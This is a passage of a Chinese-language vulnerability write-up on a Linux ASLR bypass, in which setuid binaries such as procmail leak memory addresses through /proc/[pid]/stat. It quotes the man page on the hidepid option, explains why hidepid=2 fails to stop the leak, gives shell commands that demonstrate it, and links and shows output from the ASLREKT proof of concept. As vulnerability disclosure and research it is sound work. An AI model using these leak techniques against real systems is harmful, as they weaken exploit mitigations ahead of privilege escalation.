 利用方式和SUSE安全工程师的Openwall文章中的一模一样，只是这次读的是`/proc/[pid]/stat`。另外一些可以泄露地址的setuid二进制包括`procmail`、`spice-client-glib-usb-acl-helper`和`setuid root`。

下面就用`procmail`做个例子：

```
$ su &amp;
[1] 3122
$ cut -d' ' -f51 /proc/3122/stat
0

[1]+  Stopped                 su
$ procmail &lt; /proc/3122/stat
$ tail -2 /var/spool/mail/user | cut -d' ' -f51
140726221803504

$ printf '0x%xn' 140726221803504
0x7ffd60760ff0

# cat /proc/3122/maps
[...]
7ffd60740000-7ffd60761000 rw-p 00000000 00:00 0                          [stack]
```

我们和零日漏洞项目（ZDI）进行了接触，向他们披露了该漏洞，Linux内核开发者对此回复，他们发现已经实现了一个可选配置，可以避免此漏洞，因此目前不会再修补漏洞。所提到的这个配置是`hidepid mount(8)`参数。

然而，这个参数并不能避免问题。

我们再次援引`proc(5)`的man文档：

> <p>hidepid=n (自Linux 3.3起)<br>
该选项控制谁能访问/proc/[pid]目录中的信息。参数n可取以下值之一：</p>
0 任何人可以访问任何/proc/[pid]目录。这是以前的默认行为，现在只要mount选项未指定，也是默认行为。
1 用户只能访问自己的/proc/[pid]目录下的文件和子目录（各/proc/[pid]目录本身仍然可见）。敏感文件（如/proc/[pid]/cmdline和/proc/[pid]/status）现在对其他用户不可访问。这样就无法得知某用户是否在运行某个特定程序（只要该程序不自己透露其存在）。
2 如模式1，加上其他用户的/proc/[pid]目录也不可见。这样/proc/[pid]目录就不能用于得知系统上所有的PID。不能隐藏某个特定PID进程的存在（可以以其他方式得知进程存在，比如”kill -0 $PID”），但可以隐藏进程的UID和GID，这二者在通常情况下可以通过对/proc/[pid]目录应用stat(2)得到。这样可大大增加攻击者收集当前运行进程信息的难度。

即使用`hidepid=2 mount`选项，攻击者仍然可以利用漏洞：用`open()`打开自己进程的`/proc/[pid]/stat`（或`/proc/[pid]/syscall`、`/proc/[pid]/auxv`），然后对想泄露其地址的`setuid`二进制用`execve()`。因为文件描述符在`setuid execve()`前就打开了（因为攻击者可以访问自己的伪文件），所以`hidepid mount`选项无法缓解此漏洞。攻击者现在就可以将文件描述符传给特权进程来泄露文件内容，进而泄露地址。



## 0x03 利用

我们在GitHub发布了PoC，命名为ASLREKT：[https://github.com/blazeinfosec/aslrekt](https://github.com/blazeinfosec/aslrekt)

下面是PoC演示，使用`spice-client-glib-usb-acl-helper`。

```
$ ./aslrekt
***** ASLREKT *****
Password: 
[+] /bin/su .text is at 0x564219868000
[+] /bin/su heap is at 0x56421b657000
[+] /bin/su stack is at 0x7ffe78d76000

# cat /proc/$(pidof su)/maps
564219868000-564219871000 r-xp 00000000 08:04 3674996                    /bin/su
[...]
56421b657000-56421b678000 rw-p 00000000 00:00 0                          [heap]
[...]
7ffe78d76000-7ffe78d97000 rw-p 00000000 00:00 0                          [stack]
```
